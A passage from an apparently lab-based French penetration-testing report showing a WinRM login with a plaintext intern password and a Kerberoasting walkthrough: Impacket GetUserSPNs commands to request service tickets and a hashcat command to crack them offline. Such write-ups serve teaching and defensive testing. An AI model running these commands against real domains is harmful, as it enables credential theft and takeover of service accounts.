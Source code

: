 ``` bash
evil-winrm -i 10.8.0.2 -u youssef.intern -p Summer@2025
```

<figure>
<img src="Rapport-media/9f428f6face43712a3313c2e9bd42cce000dae25.png"
title="wikilink" alt="Pasted image 20250508110642.png" />
<figcaption aria-hidden="true">Pasted image
20250508110642.png</figcaption>
</figure>

## Enumération des comptes avec SPN exposés (Kerberoasting)

Le Kerberoasting est une cyberattaque qui exploite le protocole d'authentification Kerberos. Les pirates volent les tickets de service Kerberos pour découvrir les mots de passe en clair des comptes de service réseau. Ils prennent ensuite le contrôle de ces comptes pour voler des données, diffuser des logiciels malveillants, etc.

La commande GetUserSPNs.py d'Impacket tente de récupérer les noms principaux de service associés aux comptes utilisateurs normaux. Elle renvoie un ticket chiffré avec le mot de passe du compte utilisateur, qui peut ensuite être attaqué hors ligne par force brute.

-dc-ip pour specifié l'IP de domain controlleur

``` bash
# Liste les SPN disponibles pour l'utilisateur youssef.intern@SaZcorp.ccn
impacket-GetUserSPNs SaZcorp.ccn/youssef.intern:Summer@2025 -dc-ip 10.8.0.2

# Requête un ticket Kerberos pour les SPN de l'utilisateur youssef.intern@SaZcorp.ccn
impacket-GetUserSPNs SaZcorp.ccn/youssef.intern:Summer@2025 -dc-ip 10.8.0.2 -request

# Tente un brute-force du hash du ticket Kerberos (TGS-REP) pour récupérer le mot de passe
hashcat -m 13100 svc_hash.txt /usr/share/wordlists/rockyou.txt --force
```

<figure>
